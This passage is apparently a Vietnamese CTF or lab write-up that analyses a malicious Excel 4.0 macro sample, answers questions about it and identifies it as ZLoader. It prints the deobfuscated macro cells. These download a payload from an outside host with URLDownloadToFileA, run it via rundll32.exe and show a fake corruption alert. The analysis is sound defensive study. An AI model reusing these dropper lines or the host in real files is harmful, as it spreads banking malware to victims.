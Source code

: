 ```
` 
- Ở đây đoạn mã dùng `GET.WORKSPACE(1)` để kiểm tra tên hệ điều hành.
- Đoạn mã kiểm tra xem có giá trị `Windows` từ `GET.WORKSPACE(1)` hay không nhằm xác định môi trường mà mục tiêu cần có

> Windows

#### Sample2: What type of payload is downloaded?

- Nhìn vào src của macro 
```
CELL:J7        , FullEvaluation      , FORMULA("=CALL(""urlmon"",""URLDownloadToFileA"",""JJCCJJ"",0,""https://ethelenecrace.xyz/fbb3"",""c:\Users\Public\bmjn5ef.html"",0,0)",K8)
CELL:J8        , FullEvaluation      , FORMULA("=SHARED FMLA at rowx=0 colx=1ALERT(""The workbook cannot be opened or repaired by Microsoft Excel because it's corrupt."",2)",K9)
CELL:J9        , FullEvaluation      , FORMULA("=CALL(""Shell32"",""ShellExecuteA"",""JJCCCJJ"",0,""open"",""C:\Windows\system32\rundll32.exe"",""c:\Users\Public\bmjn5ef.html,DllRegisterServer"",0,5)",K11)
```
- Ta thấy rằng chúng tải xuống 1 file từ `https://ethelenecrace.xyz/fbb3`  và lưu với tên bmjn5ef.html
- Sau  đó chúng thực thi nó thông qua rundll32.exe
- Nhìn vào rundll32 được gọi, ta có thể dễ dàng xác định được file được tải xuống là file dll

> dll

#### Sample2: What URL does the malware download the payload from?

> https://ethelenecrace.xyz/fbb3

#### Sample2: What is the filename that the payload is saved as?

> bmjn5ef.html

#### Sample2: How is the payload executed? For example, mshta.exe

> rundll32.exe

#### Sample2: What was the malware family?
- Để xác định được loại malware, ta bắt đầu từ cách tìm kiếm các đặc trưng của mã trên google.
- ![image](https://hackmd.io/_uploads/rJHCwx8eJx.png)
- Bước đầu xác định được hash là : b5d469a07709b5ca6fee934b1e5e8e38
- Mình dựa vào hash thì tìm được trang này: https://bazaar.abuse.ch/sample/7d7f9477110643a6f9065cc9ed67440aa091e323ba6b981c1fb504fdd797535c/
- Hầu hết malware family được xác định là emotet nhưng nó không chính xác
- Tại [filescan.io](https://www.filescan.io/uploads/62ec1af3a405183f8ea4d692/reports/71f75897-77f2-4efa-858e-f00ef8281748/overview) xác định được nó là zloader
- ![image](https://hackmd.io/_uploads/B11JYl8eJx.png)
```
ZLoader là một loại phần mềm độc hại thuộc họ trojan ngân hàng. Ban đầu, nó được thiết kế để đánh cắp thông tin nhạy cảm như thông tin đăng nhập ngân hàng, mật khẩu và dữ liệu tài chính từ các hệ thống bị lây nhiễm
```


### Resource
- https://docs.remnux.org/discover-the-tools/analyze+documents/microsoft+office
- https://github.com/DidierStevens/DidierStevensSuite/blob/master/msoffcrypto-crack.py
- https://github.com/DissectMalware/XLMMacroDeobfuscator
- https://www.joesandbox.com/analysis/500543/1/executive